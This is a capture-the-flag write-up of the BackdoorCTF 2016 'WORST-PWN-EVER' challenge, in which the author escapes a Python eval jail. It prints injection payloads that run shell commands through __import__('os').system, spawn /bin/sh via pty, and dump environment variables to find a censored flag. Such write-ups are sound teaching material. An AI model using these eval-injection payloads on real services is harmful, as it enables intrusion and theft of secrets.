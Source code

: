 Author: michals (Michał Soczewka)

WORST-PWN-EVER
==============

CTF: BackdoorCTF 2016
Link: https://backdoor.sdslabs.co/challenges/WORST-PWN-EVER
Author: Ashish Chaudhary
Points: 100
Category: pwn, Python


Description
-----------

>   tocttou is an enviornmentalist. But some say he has a vicious motive
>   and he uses nature to hide his dark side. We found a weird shell on
>   his amazon (pun inteded) web services. Can you tell us what is he
>   upto?
>
>   Tip: he might shut down the machine if he notices you - and he will
>   (maybe in 45 seconds).
>
>   Access: nc hack.bckdr.in 9008


## TL;DR
We have been given an Python eval jail over a TCP socket.  
The solution is to retreive an environment variable using one 
of the classic builtin hacks, for example:
```python
__import__('os').system('env|grep -iE ".*f.*l.*a.*g"')
```

## Solution
After establishing a~connection to the given server a~prompt is returned.  
Let's try some random fuzzing...
First let's see what happens when we press ```CTRL+D```
right away:

```
> EOFError: EOF when reading a line
--> WHAT ARE YOU DOING HERE? >-[
```
Let's check if it is a~system shell:
```
> echo x
SyntaxError: unexpected EOF while parsing (<string>, line 1)
--> WHAT ARE YOU DOING HERE? >-[
```
No, it's definitely not a~system shell. It looks like a~Python interpreter.  
Let's check this theory then:
```
> 1+1
```
No response, no error ---~it looks promising.  
Let's check then if we can see some Python errors:
```
> 1+'x'*[]
TypeError: can't multiply sequence by non-int of type 'list'
```
Bingo! If it really is an old ```eval``` jail, then
we could escape using a~classic builtin hacks.  
Let's check that:
```
> str(__import__('os').system('echo x'))
x
```
 Got it! Let's get a shell and start looking around:
```
> __import__('pty').spawn('/bin/sh')
sh-4.3#
```

After looking through available files for a~few minutes
and finding nothing useful, we noticed the task description
contains a~clue ---~the word ```environmentalist```
suggests checking environment variables.

```
sh-4.3# env
HOSTNAME=43523caef67d
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_F_L_A_G_='xxxxxxxxxxxxxxx CENSORED xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx'
PWD=/scripts
SHLVL=3
HOME=/root
_=/usr/bin/env
```
